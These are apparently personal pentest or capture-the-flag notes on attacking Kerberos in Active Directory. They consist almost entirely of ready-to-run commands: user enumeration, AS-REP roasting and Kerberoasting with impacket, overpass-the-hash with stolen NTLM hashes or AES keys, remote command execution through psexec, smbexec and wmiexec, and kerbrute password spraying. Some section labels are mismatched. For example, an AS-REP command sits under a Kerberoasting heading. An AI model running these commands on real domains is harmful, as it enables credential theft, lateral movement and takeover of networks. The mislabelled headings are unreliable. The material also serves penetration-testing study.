 ```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN.LOCAL'" $TARGET
```
#### MSF
```
use auxiliary/gather/kerberos_enumusers
```
# Check for Kerberoasting:
```
GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip $TARGET -format hashcat/john
```
# GetUserSPNs
```
ASREPRoast:
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
```
impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
# Kerberoasting:
```
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```
#### Overpass The Hash/Pass The Key (PTK):
```
python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash> -dc-ip $DOMAIN_CONTROLLER_IP
```
```
python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key> -dc-ip $DOMAIN_CONTROLLER_IP
```
```
python3 getTGT.py <domain_name>/<user_name>:[password] -dc-ip $DOMAIN_CONTROLLER_IP
```
#### Using TGT key to excute remote commands from the following impacket scripts:
```
python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
```
python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
```
python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
https://www.tarlogic.com/blog/como-funciona-kerberos/
https://www.tarlogic.com/blog/como-atacar-kerberos/
```
python kerbrute.py -dc-ip $TARGET -users /root/htb/kb_users.txt -passwords /root/pass_common_plus.txt -threads 20 -domain DOMAIN -outputfile kb_extracted_passwords.txt
```
https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/
https://github.com/GhostPack/Rubeus
https://github.com/fireeye/SSSDKCMExtractor
https://gitlab.com/Zer1t0/cerbero
